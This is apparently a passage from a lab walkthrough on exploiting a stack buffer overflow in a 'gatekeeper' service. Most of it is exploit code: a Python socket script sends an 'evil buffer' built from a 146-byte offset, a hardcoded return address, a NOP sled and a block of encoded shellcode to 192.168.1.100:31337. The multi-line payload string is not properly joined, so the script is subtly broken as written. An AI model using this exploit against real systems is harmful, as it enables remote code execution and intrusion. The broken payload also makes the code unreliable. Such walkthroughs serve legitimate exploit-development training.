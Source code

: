 ```python

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

--- 

### Prepend NOPs / Padding

- Since an **encoder was likely used to generate the payload**, you will need some **space in memory for the payload to unpack itself**. 

    - **You can do this by setting the `padding` variable to a string of `16 or more` `"No Operation"` (`\x90`) bytes:

        - `padding = "\x90" * 16`
        
- Add this to the `overflow_gatekeeper_step567_Final_Payload.py` script:

```python
import socket

ip = "192.168.1.100"
port = 31337

prefix = ""
offset = 146
overflow = "A" * offset
retn = "\xC3\x14\x04\x08"
padding = "\x90" * 16
payload = "\xba\x1c\xf2\x98\x43\xda\xc5\xd9\x74\x24\xf4\x5e\x31\xc9\xb1"
"\x52\x31\x56\x12\x03\x56\x12\x83\xda\xf6\x7a\xb6\x1e\x1e\xf8"
"\x39\xde\xdf\x9d\xb0\x3b\xee\x9d\xa7\x48\x41\x2e\xa3\x1c\x6e"
"\xc5\xe1\xb4\xe5\xab\x2d\xbb\x4e\x01\x08\xf2\x4f\x3a\x68\x95"
"\xd3\x41\xbd\x75\xed\x89\xb0\x74\x2a\xf7\x39\x24\xe3\x73\xef"
"\xd8\x80\xce\x2c\x53\xda\xdf\x34\x80\xab\xde\x15\x17\xa7\xb8"
"\xb5\x96\x64\xb1\xff\x80\x69\xfc\xb6\x3b\x59\x8a\x48\xed\x93"
"\x73\xe6\xd0\x1b\x86\xf6\x15\x9b\x79\x8d\x6f\xdf\x04\x96\xb4"
"\x9d\xd2\x13\x2e\x05\x90\x84\x8a\xb7\x75\x52\x59\xbb\x32\x10"
"\x05\xd8\xc5\xf5\x3e\xe4\x4e\xf8\x90\x6c\x14\xdf\x34\x34\xce"
"\x7e\x6d\x90\xa1\x7f\x6d\x7b\x1d\xda\xe6\x96\x4a\x57\xa5\xfe"
"\xbf\x5a\x55\xff\xd7\xed\x26\xcd\x78\x46\xa0\x7d\xf0\x40\x37"
"\x81\x2b\x34\xa7\x7c\xd4\x45\xee\xba\x80\x15\x98\x6b\xa9\xfd"
"\x58\x93\x7c\x51\x08\x3b\x2f\x12\xf8\xfb\x9f\xfa\x12\xf4\xc0"
"\x1b\x1d\xde\x68\xb1\xe4\x89\x56\xee\xe7\x0b\x3f\xed\xe7\x9a"
"\xe3\x78\x01\xf6\x0b\x2d\x9a\x6f\xb5\x74\x50\x11\x3a\xa3\x1d"
"\x11\xb0\x40\xe2\xdc\x31\x2c\xf0\x89\xb1\x7b\xaa\x1c\xcd\x51"
"\xc2\xc3\x5c\x3e\x12\x8d\x7c\xe9\x45\xda\xb3\xe0\x03\xf6\xea"
"\x5a\x31\x0b\x6a\xa4\xf1\xd0\x4f\x2b\xf8\x95\xf4\x0f\xea\x63"
"\xf4\x0b\x5e\x3c\xa3\xc5\x08\xfa\x1d\xa4\xe2\x54\xf1\x6e\x62"
"\x20\x39\xb1\xf4\x2d\x14\x47\x18\x9f\xc1\x1e\x27\x10\x86\x96"
"\x50\x4c\x36\x58\x8b\xd4\x56\xbb\x19\x21\xff\x62\xc8\x88\x62"
"\x95\x27\xce\x9a\x16\xcd\xaf\x58\x06\xa4\xaa\x25\x80\x55\xc7"
"\x36\x65\x59\x74\x36\xac"
postfix = ""

```